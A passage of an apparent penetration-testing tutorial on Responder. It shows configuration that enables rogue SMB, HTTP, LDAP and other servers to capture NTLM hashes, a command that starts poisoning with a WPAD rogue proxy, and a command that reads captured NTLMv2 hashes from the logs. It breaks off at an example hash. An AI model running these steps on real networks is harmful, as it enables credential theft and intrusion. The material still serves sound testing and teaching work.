 #### Configuration

Edit the Responder configuration file to enable/disable specific protocols:

```bash
# Open the configuration file
nano Responder.conf
```

Important settings in the configuration:

```ini
[Responder Core]

; Enable or disable protocols
SMB = On
HTTP = On
HTTPS = On
LDAP = On
SQL = On
FTP = On
POP = On
IMAP = On
SMTP = On

; Enable/disable server functionality
; Set this to "On" to capture NTLM hashes
Challenge = 1122334455667788
```

### Basic Usage

#### Starting Responder

```bash
# Start Responder on the primary interface
sudo python3 Responder.py -I eth0 -rdw

# Options explained:
# -I: Interface to use
# -r: Enable answers for NetBIOS domain suffix queries
# -d: Enable answers for NetBIOS domain controller queries
# -w: Enable WPAD rogue proxy server
```

#### Viewing Captured Hashes

Responder stores captured hashes in the `logs` directory:

```bash
# View captured NTLMv2 hashes
cat Responder/logs/SMB-NTLMv2-SSP-*.txt
```

Example captured hash:
